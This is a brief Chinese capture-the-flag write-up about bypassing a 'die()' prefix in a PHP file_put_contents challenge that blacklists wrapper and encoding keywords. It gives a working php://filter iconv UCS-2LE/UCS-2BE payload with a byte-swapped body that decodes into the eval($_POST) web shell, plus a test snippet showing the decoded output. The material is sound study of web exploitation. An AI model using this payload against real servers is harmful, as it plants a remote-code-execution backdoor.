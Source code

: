 ```php
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
题目中过滤了很多协议和编码方式，但是除了我们常用的base64和rot13还是有很多方法可以绕过die的
[更多编码方式](https://www.php.net/manual/zh/mbstring.supported-encodings.php)
这是取一个 UCS-2LE UCS-2BE
```php
payload:
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
post:contents=?<hp pvela$(P_SO[T]1;)>?
```
可以测试下面代码
```
echo iconv("UCS-2LE","UCS-2BE",'<?php die();?>?<hp pvela$(P_SO[T]1;)>?');

输出如下，使得die失效，并且我们的一句话木马可以使用
?<hp pid(e;)>?<?php eval($_POST[1]);?>

```
##  参考文献
1. https://blog.csdn.net/qq_42181428/article/details/87090539（重点）
2. https://www.freebuf.com/articles/web/277756.html
3. https://blog.csdn.net/miuzzx/article/details/116205407